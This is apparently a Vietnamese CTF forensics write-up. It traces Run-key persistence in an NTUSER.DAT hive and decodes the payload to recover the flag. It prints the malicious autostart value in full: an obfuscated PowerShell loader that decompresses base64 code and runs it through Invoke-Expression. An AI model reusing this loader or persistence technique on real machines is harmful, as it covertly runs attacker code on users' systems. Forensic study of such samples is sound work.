 ![Screenshot (4446)](https://github.com/NVex0/uWU/assets/113530029/3f69c15c-fbd0-421a-9994-13e27c76e23c)

Đề bài cung cấp 1 file NTUSER.DAT. Và với mô tả của bài thì ta hiểu máy Hoà bị đặt persistence rồi, cụ thể là đặt trong autostart registry key. Mình load file vào Registry Viewer và tìm tới path: `Software\Microsoft\Windows\CurrentVersion\Run`:

![image](https://github.com/NVex0/uWU/assets/113530029/63dce788-68d7-4894-927b-d6b3b4e4a360)

Đây là đoạn code nằm trong value này:

```"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "(neW-obJEct io.COMprEssIon.dEFlATesTReAm( [sySTem.IO.memorYSTREam] [coNVeRT]::FRoMBAse64stRInG( 'TVFva4JAGP8qh7hxx/IwzbaSBZtsKwiLGexFhJg+pMs09AmL6rvP03S9uoe739/nZD+OIEHySmwolNn6F3wkzilH2HEbkDupvwXM+cKaWxWSSt2Bxrv9F64ZOteepU5vYOjMlHPMwNuVQnItyb8AneqOMnO5PiEsVytZnHkJUjnvG4ZuXB7O6tUswigGSuVI0Gsh/g1eQGt8h6gdUo98CskGQ8aIkgBR2dmUAw+9kkfvCiiL0x5sbwdNlQUckb851mTykfhpECUbdstXjo2LMIlEE0iCtedvhWgER1I7aKPHLrmQ2QGVmkbuoFoVvOE9Eckaj8+26vbcTeomqptjL3OLUM/0q1Q+030RMD73MBTYEZFuSmUMYbpEERduSVfDYZW8SvwuktJ/33bx/CeLEGirU7Zp52ZpLfYzPuQhZVez+SsrTnOg7A8='), [SYSTEM.iO.ComPReSSion.CoMPrEsSIonmODe]::DeCOmpresS)|FOREAcH-object{ neW-obJEct io.streAMrEadeR( $_,[sysTem.TExt.EnCoDING]::asCIi )}).reaDToEnD()|inVOKe-exprEsSIon"```

Để ý thì đoạn trên code, phần base64 kia sẽ được xử lí bằng cách b64decode và decompress. Mình dùng cyberchef để làm việc tương tự:

![image](https://github.com/NVex0/uWU/assets/113530029/ad887edd-5e55-4914-9978-0773fdd26333)

Phần data sendback về chứa flag luôn :>

Flag: `CHH{N0_4_go_n0_st4r_wh3r3}`
